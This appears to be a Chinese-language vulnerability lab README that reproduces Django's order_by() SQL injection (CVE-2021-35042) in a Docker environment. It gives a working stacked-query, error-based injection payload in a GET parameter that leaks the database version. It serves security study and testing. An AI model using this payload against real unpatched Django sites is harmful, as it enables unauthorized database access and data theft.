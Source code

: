# Django QuerySet.order_by() SQL注入漏洞（CVE-2021-35042）

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控order_by传入的值，在预期列的位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

访问页面`http://your-ip:8000/vuln/`，在GET参数中构造`order=-id`，会得到根据id降序排列的结果：

`http://your-ip:8000/vuln/?order=-id`

![](1.png)

再构造GET参数`order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

`http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`

成功注入SQL语句，利用堆叠注入获得信息：

![](2.png)
